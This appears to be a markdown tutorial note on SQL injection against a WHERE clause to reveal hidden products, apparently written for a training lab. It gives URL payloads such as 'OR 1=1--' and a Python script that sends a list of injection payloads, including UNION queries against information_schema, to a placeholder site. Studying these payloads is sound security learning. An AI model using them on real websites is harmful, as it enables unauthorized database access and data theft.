 ### Retreive Hidden Data

`https://insecure-website.com/products?category=Gifts`

This website try to display product in different categories. The SQL query to retrieve details look like.

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1 `

>The restriction `released = 1` is being used to hide products that are not released. We could assume for unreleased products, `released = 0`. 

#### The payload

Since the query doesnt implement any defense againts SQL injection, the attacker can craft a payload such as : 

```
https://insecure-website.com/products?category=Gifts'-- 

https://insecure-website.com/products?category=Gifts'+OR+1=1--

```
> + symbol represent space in url.

##### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

> Given the website with search funtion.

`https://URL/filter?category=Pets%27+OR+1=1--`

`https://URL/filter?category=Pets'+--`

```
import requests
from bs4 import BeautifulSoup

url = "https://URL/filter?category="

payloads = [
    "' OR '1'='1",
    "' OR '1'='1' --",
    "' OR '1'='1' #",
    "' AND 1=CONVERT(int, (SELECT @@version)) --",
    "' UNION SELECT null, null, null --",
    "' UNION SELECT null, table_name, null FROM information_schema.tables --",
    "' AND 1=0 UNION ALL SELECT null, null, null --"
]

def test_sql_injection(url, payloads):
    for payload in payloads:
        test_url = url + payload
        
        try:
            response = requests.get(test_url)
            
            print(f"Testing payload: {payload}")
            print(f"Status Code: {response.status_code}")
            
            soup = BeautifulSoup(response.text, 'html.parser')
            
            print(f"HTML Content (first 500 chars): {soup.prettify()[:500]}")
            print("-" * 40)
        
        except requests.RequestException as e:
            print(f"An error occurred: {e}")

```